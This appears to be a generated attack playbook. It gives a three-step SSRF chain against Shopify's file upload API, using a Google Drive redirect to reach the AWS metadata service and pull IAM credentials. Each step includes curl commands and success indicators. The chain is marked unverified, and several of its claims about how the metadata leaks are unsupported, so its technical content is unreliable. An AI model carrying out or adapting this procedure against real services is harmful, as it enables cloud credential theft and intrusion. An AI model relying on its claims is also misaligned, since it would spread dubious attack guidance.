

# SSRF via Google Drive Integration to Exfiltrate AWS Metadata in Shopify

Multi-stage attack chain demonstrating a complete attack workflow exploiting SSRF in Shopify's file upload feature via Google Drive to access internal AWS metadata.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Shopify application with Google Drive integration enabled
- AWS-hosted backend (internal metadata service at 169.254.169.254)
- Valid Shopify API access or authenticated session

### Initial Access Requirements

- Authenticated user account in Shopify
- Network access to Shopify's public API endpoints
- No prior internal access needed; exploits public-facing application

## Detailed Attack Procedures

### Step 1: Prepare Malicious Google Drive URL
procedure: [[procedures/Prepare-Malicious-Google-Drive-URL]]

**Objective**: Create a Google Drive file with content that, when fetched, redirects or proxies requests to internal AWS metadata endpoints.

**Instructions**: First, upload a simple HTML file to Google Drive containing a redirect to the AWS metadata service. Make the file publicly accessible and obtain its shareable link. Modify the link to point to the file's raw content.

Use [[commands/curl-prepare-gdrive-url]] to test the Google Drive URL accessibility:

```bash
curl -I "https://drive.google.com/uc?id=FILE_ID&export=download"
```

Then, craft the malicious URL by embedding the AWS metadata endpoint (e.g., http://169.254.169.254/latest/meta-data/iam/security-credentials/) into a redirect script in the file.

**Expected Output**: A valid Google Drive URL that, when fetched by the server, attempts to access internal resources.

**Success Indicators**:
- Google Drive file uploaded and link generated
- URL responds with 200 OK when tested locally

### Step 2: Trigger SSRF via Shopify API
procedure: [[procedures/Trigger-SSRF-via-Shopify-API]]

**Objective**: Submit the malicious Google Drive URL to Shopify's file processing API, causing the server to fetch it and perform the SSRF.

**Instructions**: Authenticate to the Shopify API using a valid session or API key. Use the file upload or integration endpoint that processes Google Drive links (e.g., /admin/api/2023-01/files.json with Google Drive source).

Execute [[commands/curl-trigger-ssrf]] to send the request:

```bash
curl -X POST "https://shopify-store.myshopify.com/admin/api/2023-01/files.json" \
  -H "X-Shopify-Access-Token: YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"file":{"url":"https://drive.google.com/uc?id=FILE_ID&export=download","filename":"malicious.html"}}'
```

Monitor the response for any errors or processing confirmations that indicate the server fetched the URL.

**Expected Output**: API response confirming file upload or processing, with no immediate errors.

**Success Indicators**:
- API returns 200 or 201 status
- No client-side validation blocks the Google Drive URL

### Step 3: Exfiltrate AWS Metadata
procedure: [[procedures/Exfiltrate-AWS-Metadata]]

**Objective**: Retrieve the exfiltrated AWS metadata (e.g., IAM credentials) from the response or a controlled endpoint.

**Instructions**: If the SSRF succeeds, the server's fetch of the malicious file will attempt to access AWS metadata and potentially include it in error logs, responses, or a callback. In this case, the Google Drive file's redirect causes the server to fetch and expose metadata in the API response or logs.

Use [[commands/curl-exfil-metadata]] to poll or retrieve any exposed data:

```bash
curl "https://shopify-store.myshopify.com/admin/api/2023-01/files/FILE_ID.json" \
  -H "X-Shopify-Access-Token: YOUR_TOKEN"
```

Parse the response for metadata artifacts like IAM role names or temporary credentials.

**Expected Output**: JSON response containing file details, potentially with embedded metadata if SSRF exposed it.

**Success Indicators**:
- Metadata such as IAM credentials visible in response
- Server logs (if accessible) show internal fetches to 169.254.169.254

## Attack Chain Summary

### Key Achievements

1. Bypassed client-side restrictions on URL schemes using Google Drive integration
2. Achieved SSRF to access localhost/internal AWS services
3. Exfiltrated sensitive IAM credentials from AWS metadata service

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Application Access Token]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
